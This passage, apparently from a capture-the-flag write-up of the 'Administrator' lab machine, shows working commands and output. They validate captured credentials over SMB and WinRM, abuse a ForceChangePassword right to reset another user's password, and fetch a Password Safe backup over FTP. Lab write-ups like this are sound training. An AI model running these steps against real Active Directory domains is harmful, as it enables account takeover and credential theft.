 We just got access to <mark>Michael</mark>'s account.

{% highlight shell %}
exegol-liemek administrator # netexec smb 10.10.11.42 -u michael -p 'helloItsm3e(123)' 
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.42     445    DC               [+] administrator.htb\michael:helloItsm3e(123)
{% endhighlight %}

{% highlight shell %}
exegol-liemek administrator # netexec winrm 10.10.11.42 -u michael -p 'helloItsm3e(123)'
WINRM       10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb) 
WINRM       10.10.11.42     5985   DC               [+] administrator.htb\michael:helloItsm3e(123) (admin)
{% endhighlight %}

#### Benjamin

With <mark>ForceChangePassword</mark> we can redo the above steps but for user <mark>Benjamin</mark>.

{% highlight shell %}
exegol-liemek administrator # net rpc password "benjamin" "helloItsNotm3e(123)" -U "administrator.htb"/"michael"%"helloItsm3e(123)" -S 10.10.11.42
{% endhighlight %}

<mark>Benjamin</mark> is authorized to access <mark>FTP</mark> and we can retrieve <mark>Backup.psafe3</mark> file from there.

{% highlight shell %}
exegol-liemek administrator # netexec ftp 10.10.11.42 -u benjamin -p "helloItsNotm3e(123)"
FTP         10.10.11.42     21     10.10.11.42      [+] benjamin:helloItsNotm3e(123)
{% endhighlight %}

{% highlight shell %}
exegol-liemek administrator # netexec smb 10.10.11.42 -u benjamin -p "helloItsNotm3e(123)"
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
{% endhighlight %}

{% highlight shell %}
SMB         10.10.11.42     445    DC               [+] administrator.htb\benjamin:helloItsNotm3e(123) 
exegol-liemek administrator # netexec winrm 10.10.11.42 -u benjamin -p "helloItsNotm3e(123)"
WINRM       10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb) 
WINRM       10.10.11.42     5985   DC               [-] administrator.htb\benjamin:helloItsNotm3e(123)
{% endhighlight %}

{% highlight shell %}
exegol-liemek administrator # file Backup.psafe3      
Backup.psafe3: Password Safe V3 database
{% endhighlight %}
